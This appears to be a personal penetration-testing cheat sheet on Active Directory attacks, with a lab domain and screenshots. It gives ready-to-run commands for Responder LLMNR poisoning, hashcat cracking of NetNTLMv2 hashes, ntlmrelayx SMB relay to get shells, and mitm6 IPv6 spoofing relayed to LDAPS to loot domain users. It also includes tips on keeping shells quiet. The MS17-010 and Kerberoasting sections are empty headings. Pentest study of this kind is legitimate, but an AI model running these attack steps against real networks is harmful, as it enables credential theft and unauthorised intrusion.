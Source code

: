 **1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 MS17-010** \
**5 Kerberoasting** \

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::  ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay::  ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap:


`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  &&  ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds::  ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

---

4. MS17-010 \

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6)

